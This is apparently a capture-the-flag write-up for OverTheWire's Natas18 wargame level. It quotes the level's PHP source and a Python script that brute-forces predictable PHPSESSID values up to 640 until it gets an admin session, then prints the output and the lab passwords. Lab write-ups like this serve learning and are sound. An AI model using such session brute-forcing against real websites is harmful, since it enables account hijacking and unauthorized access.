 # CTF Writeup - **OverTheWire Natas17 - Natas18**

**Author**: spiketyson 

---

## Challenge Details

- **Challenge Name:** Natas17 - Natas18
- **Category:** Linux
- **Difficulty Level:** Easy
- **Date:** 18-12-2024

---

## Summary

This challenge is the introductory level for the Natas series on OverTheWire, focusing on web exploitation. The goal is to find the flag that is hidden web server using burpsuite if possible.

---

## Approach

Since this is an basic challenge, I planned to use python to find the flag using session brute force.

---

## Solution Walkthrough

Connecting to the web server using:

```bash
Username: natas18
Password: 6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ
URL:      http://natas18.natas.labs.overthewire.org
```

After logging in, we can see that the webpage asks for an input username and password.  But we dont know anything about it, So lets input some random names and check it out. 

```bash
Please login with your admin account to retrieve credentials for natas19.
Username: natas
password: natas 
# You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.
```

Now we see that it doesnot check out input and only prints the above. This is interesting. Lets view the source code.

```bash
# <?php

# $maxid = 640; // 640 should be enough for everyone

# function isValidAdminLogin() { /* {{{ */
#     if($_REQUEST["username"] == "admin") {
#     /* This method of authentication appears to be unsafe and has been disabled for now. */
#         //return 1;
#     }

#     return 0;
# }
# /* }}} */
# function isValidID($id) { /* {{{ */
#     return is_numeric($id);
# }
# /* }}} */
# function createID($user) { /* {{{ */
#     global $maxid;
#     return rand(1, $maxid);
# }
# /* }}} */
# function debug($msg) { /* {{{ */
#     if(array_key_exists("debug", $_GET)) {
#         print "DEBUG: $msg<br>";
#     }
# }
# /* }}} */
# function my_session_start() { /* {{{ */
#     if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
#     if(!session_start()) {
#         debug("Session start failed");
#         return false;
#     } else {
#         debug("Session start ok");
#         if(!array_key_exists("admin", $_SESSION)) {
#         debug("Session was old: admin flag set");
#         $_SESSION["admin"] = 0; // backwards compatible, secure
#         }
#         return true;
#     }
#     }

#     return false;
# }
# /* }}} */
# function print_credentials() { /* {{{ */
#     if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
#     print "You are an admin. The credentials for the next level are:<br>";
#     print "<pre>Username: natas19\n";
#     print "Password: <censored></pre>";
#     } else {
#     print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";
#     }
# }
# /* }}} */

# $showform = true;
# if(my_session_start()) {
#     print_credentials();
#     $showform = false;
# } else {
#     if(array_key_exists("username", $_REQUEST) && array_key_exists("password", $_REQUEST)) {
#     session_id(createID($_REQUEST["username"]));
#     session_start();
#     $_SESSION["admin"] = isValidAdminLogin();
#     debug("New session started");
#     $showform = false;
#     print_credentials();
#     }
# }

# if($showform) {
# ?>
```

We can see that there is a small piece of code that is executed when we click on submit. This PHP script manages a session-based authentication system with debug functionality, allowing users to log in and retrieve credentials if they have administrative privileges. The script starts by validating sessions through `my_session_start()`, which checks for a valid numeric `PHPSESSID` cookie and initializes the `admin` flag in the session if it does not exist. If no valid session exists, and the user submits a `username` and `password`, a session is created with a random ID generated by `createID()`, but the admin flag is always set to `0` because the `isValidAdminLogin()` function (which checks if the username is "admin") is commented out and disabled. The `debug()` function outputs messages when the debug parameter is present in the URL, aiding in troubleshooting. The `print_credentials()` function displays the next level's credentials only if the session's admin flag is set to 1, otherwise informing the user they are logged in as a regular user. The script concludes by displaying credentials for `admin` users or informing non-admins of their status. However, the session ID generation is predictable, and the disabled admin login check highlights vulnerabilities that could be exploited for session hijacking or bypassing authentication.


```bash
import requests

target = 'http://natas18.natas.labs.overthewire.org'
auth = ('natas18','6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ')
params = dict(username='admin', password='s3cr3t')
cookies = dict()

max_s_id = 640
s_id = 1
while s_id <= max_s_id:
	print ("Trying with PHPSESSID = " + str(s_id))
	cookies = dict(PHPSESSID=str(s_id))
	r = requests.get(target, auth=auth, params=params, cookies=cookies)
	if "You are an admin" in r.text:
		print(r.text)
		break
	s_id += 1
```

What we are doing here is that we are essentially we are trying out all possible `PHPSESSIONID` as `640` is a very small range. We can see that the password is displayed when the `PHPSESSIONID  = 119` as shwon below. 

```bash
# Trying with PHPSESSID = 1
# Trying with PHPSESSID = 2
# ...
# ...
# Trying with PHPSESSID = 118
# Trying with PHPSESSID = 119
# <html>
# <head>
# <!-- This stuff in the header has nothing to do with the level -->
# <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
# <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
# <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
# <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
# <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
# <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
# <script>var wechallinfo = { "level": "natas18", "pass": "6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ" };</script></head>
# <body>
# <h1>natas18</h1>
# <div id="content">
# You are an admin. The credentials for the next level are:<br><pre>Username: natas19
# Password: tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr</pre><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
# </div>
# </body>
# </html>
```


## Flag

**Flag:** tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr


---

## Lessons Learned

It was a bit of challenge for me. I was able to grasp the idead behind the solution very easily. I learnt a lot on how to approach these types of challenges.